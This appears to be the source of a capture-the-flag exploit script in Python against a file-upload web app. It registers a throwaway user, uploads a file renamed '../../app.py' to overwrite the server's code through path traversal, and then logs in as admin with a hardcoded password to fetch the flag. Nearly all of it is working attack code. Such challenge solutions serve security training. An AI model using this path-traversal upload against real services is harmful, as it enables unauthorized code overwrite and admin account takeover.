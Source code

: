 ```py
    
def get_profile(url, session: requests.Session):
    response = session.get(url=url + '/profile')
    print('[+] Profile: ')
    print('\t---------------------------------------')
    print('\t', response.text)
    print('\t---------------------------------------')

def get_list_files(url, session: requests.Session):
    response = session.get(url=url + '/files')
    print('[+] Files: ')
    print('\t---------------------------------------')
    print('\t', response.text)
    print('\t---------------------------------------')
    
def upload_file(url, session: requests.Session, file_path: str, file_newname: str):
    files = {'file': (file_newname, open(file_path, 'rb'))}
    
    response = session.post(url=url + '/upload', files=files)
    if response.status_code == 200:
        print("[+] File uploaded successfully: ", response.status_code)
    else:
        print("[+] File upload failed: ", response.status_code)
    print('\t---------------------------------------')
    print('\t', response.text)
    print('\t---------------------------------------')

def get_file(url, session: requests.Session, file_id: int):
    response = session.get(url=url + f'/file/{file_id}')
    print('[+] File content: ')
    print('\t---------------------------------------')
    print('\t', response.text)
    print('\t---------------------------------------')

# -----------------------------------------------------------

def get_admin():
    test_user = {
        'username': 'b',
        'password': 'b'
    }
    
    regist_account(url=URL, account=test_user)
    
    session = requests.Session()
    login_account(url=URL, session=session, account=test_user)
    
    get_profile(url=URL, session=session)
    get_list_files(url=URL, session=session)
    
    upload_file(url=URL, session=session, file_path='upload.py', file_newname='../../app.py')
    get_list_files(url=URL, session=session)
    
    file_id = 2 # CHANGE THIS ID
    get_file(url=URL, session=session, file_id=file_id)
    
def get_flag():
    admin = {
        'username': 'admin',
        'password': '0afc1e0ed61beb49f5f41838bcb0d8bf091b2796'
    }
    session2 = requests.Session()
    login_account(url=URL, session=session2, account=admin)
```